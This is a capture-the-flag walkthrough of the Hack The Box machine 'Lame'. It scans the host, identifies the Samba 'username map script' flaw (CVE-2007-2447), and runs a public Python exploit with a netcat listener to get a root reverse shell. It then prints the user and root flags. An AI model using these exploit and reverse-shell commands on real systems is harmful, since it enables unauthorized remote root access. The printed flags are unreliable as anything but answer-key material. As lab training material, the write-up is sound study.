# Lame - 10.10.10.3

## Enumeration

### Nmap

command: 

```bash
nmap -p- -Pn 10.10.10.3 -oA nmap/quick
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-23 04:56 EDT
Verbosity Increased to 1.
Connect Scan Timing: About 64.81% done; ETC: 05:04 (0:02:45 remaining)
Discovered open port 3632/tcp on 10.10.10.3
Verbosity Decreased to 0.
Nmap scan report for 10.10.10.3
Host is up (0.24s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 447.44 seconds
```


## Vulnerability Information 

Searchsploit is used to search for a known exploit the samba version **3.0.20**

command: 

```bash
searchsploit samba 3.0.20
```





After researching the exploit **Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution** , its CVE can be found on exploitdb website. 

[Link](https://www.exploit-db.com/exploits/16320 ):  https://www.exploit-db.com/exploits/16320 CVE: 2007-2447



Upon searching for the CVE in [National Vulnerability Database](https://nvd.nist.gov/), it can be known on how does the payload work. 

[Link](https://nvd.nist.gov/vuln/detail/CVE-2007-2447): https://nvd.nist.gov/vuln/detail/CVE-2007-2447



**Vulnerability Explanation:**

The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map  script" smb.conf option is enabled, and allows remote authenticated  users to execute commands via shell metacharacters involving other  MS-RPC functions in the (2) remote printer and (3) file share  management.

## Exploitation

When searching for **cve-2007-2447 exploit** on google, a github repository is found containing a python POC script.

 

[Link](https://nvd.nist.gov/vuln/detail/CVE-2007-2447): https://github.com/amriunix/CVE-2007-2447



A python package needs to be installed to run the script.

command:

```bash
mkdir exploit
cd exploit
git clone https://github.com/amriunix/CVE-2007-2447
pip install --user pysmb
```



After installing the exploit dependencies, the python exploit can now be ran.

command:

```bash
python3 usermap_script.py 10.10.10.3 139 10.10.14.3 8888
rlwrap nc -lvnp 8888
```

On the first pane, the exploit is being executed, and on the second one, a connection is received coming from the target.



After exploiting, the shell is already running as root.

### User.txt

```bash
find /home -type f
```



the **user.txt** file is located in user **makis** home folder.

```bash
cat /home/makis/user.txt
```



> user.txt flag: `43bf1c6bb6f868ad4e55452e7db7eeb1`

### Root.txt

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```



> root.txt flag: `a8221b5e4e0a0535e87eae265190c232`

